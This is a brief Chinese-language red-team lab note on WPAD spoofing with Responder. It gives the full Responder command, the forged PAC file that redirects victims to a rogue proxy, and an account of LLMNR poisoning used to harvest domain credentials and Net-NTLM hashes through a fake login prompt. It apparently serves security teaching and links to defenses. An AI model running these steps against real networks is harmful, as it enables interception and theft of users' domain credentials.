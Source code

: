   ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/20.png)

---

## WPAD

```
responder -I eth0 -r on -v -F on -w on
```

Responder 通过伪造如下 pac 文件将代理指向 ISAProxySrv:3141
```
function FindProxyForURL(url, host){
  if ((host == "localhost")
      || shExpMatch(host, "localhost.*")
      ||(host == "127.0.0.1")
      || isPlainHostName(host)) return "DIRECT";
  if (dnsDomainIs(host, "RespProxySrv")
      ||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)"))
    			return "DIRECT";
  return 'PROXY ISAProxySrv:3141; DIRECT';}
```

受害者会使用 ISAProxySrv:3141 作为代理，但是受害者不知道 ISAProxySrv 对应的 ip 是什么，所以会再次查询，Responder 再次通过 llmnr 投毒进行欺骗。将 ISAProxySrv 指向 Responder 本身。然后开始中间人攻击。

Responder 创建一个身份验证屏幕，并要求客户输入他们在域中使用的用户名和密码。

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/13.png)

没有安全意识的话就会写入在域中使用的用户名和密码。最后，我们可以看到他们的 Net-NTLM Hash。

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/14.png)

---

## 防御手段

- [Secure-Win](../../../../Integrated/Windows/Secure-Win.md#防御responder欺骗)
